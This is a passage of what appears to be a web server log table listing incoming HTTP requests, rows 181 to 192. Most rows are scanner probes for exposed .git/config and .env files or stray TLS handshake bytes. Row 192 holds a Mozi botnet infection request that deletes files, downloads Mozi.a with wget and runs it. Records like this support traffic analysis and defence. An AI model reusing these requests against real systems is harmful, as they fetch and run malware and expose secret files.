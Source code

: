 | 181 |                     1 | GET /public_html/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 182 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xF4t\xD4\x01\x0EY\xD09b$V\x0B\xA2\xEB\xCF\x04z\xFEXT\xE1\x87\xDE\xEB\xD0Wp\x8B\xF6QZ\xAD \xA5\xABc3\x17\x10\xF3)\xC2\x22\xFDz.b\xE6\x81\xB0R\xEC\xEF\x02S7\x83\x9B\xFA3\xB7\x93Q\x06\xA1\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                           |
| 183 |                     1 | \x16\x03\x01\x00\x80\x01\x00\x00|\x03\x03t\x01\xAC\x13\x90\xBF\x973\xAFgHGVN\xA7\xD7U^0i\x12]\x18c\xBE0i\x7FdVs\x02\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                        |
| 184 |                     1 | GET /templates/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 185 |                     1 | GET /repo/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 186 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x97\xC5H\x80\x0E\xE4\xCC=\xB12\xC0\xEF6\x87\xB2^\x8FbBau\x8B\xA4\x0F6\xA3N\xEAo\x05$\x1C x\xA1\x5C\xF6;\xF0\xA2\x90\xD8W\x8D#\xF4\xE6\xE1\x0C\x00\xDBuD\x8B\x06\xEE\x95t\x8BZ\xDE\xF7\x15\x13^\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                     |
| 187 |                     1 | GET /configuration/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 188 |                     1 | GET /.env.config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 189 |                     1 | GET /project/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 190 |                     1 | GET /Media/Images/1801359D.PNG HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 191 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x84\x09G\x90\x0B\x01T\xEB\xA1g\x85/\xDC\xD2\xBD\xFB\xBE\xE44|\xB9\xED\xFC\x84\xF0\xBE!_0\xCC\xCB\x9E\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                |
| 192 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                   |